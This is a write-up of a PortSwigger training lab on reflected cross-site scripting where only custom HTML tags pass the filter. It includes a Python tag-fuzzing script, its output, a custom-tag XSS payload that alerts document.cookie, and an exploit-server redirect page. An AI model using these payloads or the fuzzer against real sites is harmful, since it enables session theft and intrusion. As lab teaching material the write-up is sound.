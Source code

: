 # Reflected XSS into HTML context with all tags blocked except custom ones | Dec 31, 2022

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-html-context-with-all-standard-tags-blocked), you'll learn: Reflected XSS into HTML context with all tags blocked except custom ones! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

This lab blocks all HTML tags except custom ones.

To solve the lab, perform a [cross-site scripting](https://portswigger.net/web-security/cross-site-scripting) attack that injects a custom tag and automatically alerts `document.cookie`.

## Exploitation

**Home page:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Site-Scripting/XSS-18/images/Pasted%20image%2020221231072352.png)

In here, we can see there is a search box.

Let's try to inject a JavaScript code:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Site-Scripting/XSS-18/images/Pasted%20image%2020221231072439.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Site-Scripting/XSS-18/images/Pasted%20image%2020221231072446.png)

However, the application blocks us from injecting XSS payloads.

**Let's try to fuzz which tag(s) is allowed via a python script:**
```py
#!/usr/bin/env python3

import requests
from threading import Thread
from time import sleep

def sendRequest(tag):
    payload = f'<{tag}>'
    url = f'https://0ae200dc03aace24c3c41b0600d800c3.web-security-academy.net/?search={payload}'

    requestResult = requests.get(url + tag)

    if 'Tag is not allowed' not in requestResult.text:
        print(f'[+] Found valid tag: {payload}')

def main():
    # From PortSwigger Cross-site scripting (XSS) cheat sheet:
    # https://portswigger.net/web-security/cross-site-scripting/cheat-sheet
    listTags = ['a', 'a2', 'abbr', 'acronym', 'address', 'animate', 'animatemotion', 'animatetransform', 'applet', 'area', 'article', 'aside', 'audio', 'audio2', 'b', 'bdi', 'bdo', 'big', 'blink', 'blockquote', 'body', 'br', 'button', 'canvas', 'caption', 'center', 'cite', 'code', 'col', 'colgroup', 'command', 'content', 'custom tags', 'data', 'datalist', 'dd', 'del', 'details', 'dfn', 'dialog', 'dir', 'div', 'dl', 'dt', 'element', 'em', 'embed', 'fieldset', 'figcaption', 'figure', 'font', 'footer', 'form', 'frame', 'frameset', 'h1', 'head', 'header', 'hgroup', 'hr', 'html', 'i', 'iframe', 'iframe2', 'image', 'image2', 'image3', 'img', 'img2', 'input', 'input2', 'input3', 'input4', 'ins', 'kbd', 'keygen', 'label', 'legend', 'li', 'link', 'listing', 'main', 'map', 'mark', 'marquee', 'menu', 'menuitem', 'meta', 'meter', 'multicol', 'nav', 'nextid', 'nobr', 'noembed', 'noframes', 'noscript', 'object', 'ol', 'optgroup', 'option', 'output', 'p', 'param', 'picture', 'plaintext', 'pre', 'progress', 'q', 'rb', 'rp', 'rt', 'rtc', 'ruby', 's', 'samp', 'script', 'section', 'select', 'set', 'shadow', 'slot', 'small', 'source', 'spacer', 'span', 'strike', 'strong', 'style', 'sub', 'summary', 'sup', 'svg', 'table', 'tbody', 'td', 'template', 'textarea', 'tfoot', 'th', 'thead', 'time', 'title', 'tr', 'track', 'tt', 'u', 'ul', 'var', 'video', 'video2', 'wbr', 'xmp']

    for tag in listTags:
        thread = Thread(target=sendRequest, args=(tag,))
        thread.start()
        sleep(0.05)

if __name__ == '__main__':
    main()
```

```
┌──(root🌸siunam)-[~/ctf/Portswigger-Labs/Cross-Site-Scripting]
└─# python3 tag_fuzzing.py 
[+] Found valid tag: <a2>
[+] Found valid tag: <animatemotion>
[+] Found valid tag: <animatetransform>
[+] Found valid tag: <animate>
[+] Found valid tag: <audio2>
[+] Found valid tag: <custom tags>
[+] Found valid tag: <iframe2>
[+] Found valid tag: <image3>
[+] Found valid tag: <image2>
[+] Found valid tag: <img2>
[+] Found valid tag: <input2>
[+] Found valid tag: <input3>
[+] Found valid tag: <input4>
[+] Found valid tag: <set>
[+] Found valid tag: <video2>
```

Then, go to PortSwigger's [Cross-site scripting (XSS) cheat sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet) to see which tags can perform XSS:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Site-Scripting/XSS-18/images/Pasted%20image%2020221231073034.png)

After some searching, I found that only custom tag works.

**Let's pick one payload:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Site-Scripting/XSS-18/images/Pasted%20image%2020221231073312.png)

This payload looks ok.

However, we want the XSS payload don't require user interaction.

**To fix that, we can add an anchor (`#x`) at the end of the URL:**
```html
?search=<xss id=x tabindex=1 onfocus=alert(document.cookie)></xss>#x
```

Let's try that:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Site-Scripting/XSS-18/images/Pasted%20image%2020221231075214.png)

It worked!

**Now, we need to go to the exploit server, host the HTML payload file, and deliver it to victim.**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Site-Scripting/XSS-18/images/Pasted%20image%2020221231073535.png)

**Final payload:**
```html
<html>
    <head>
        <title>XSS-18</title>
    </head>
    <body>
        <script>
            window.location.replace("https://0ae200dc03aace24c3c41b0600d800c3.web-security-academy.net/?search=<xss id=x tabindex=1 onfocus=alert(document.cookie)></xss>#x"); 
        </script>
    </body>
</html>
```

When the victim visit our web page, he/she will be redirected to the XSS payload.

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Site-Scripting/XSS-18/images/Pasted%20image%2020221231075458.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Site-Scripting/XSS-18/images/Pasted%20image%2020221231075511.png)

Nice!

# What we've learned:

1. Reflected XSS into HTML context with all tags blocked except custom ones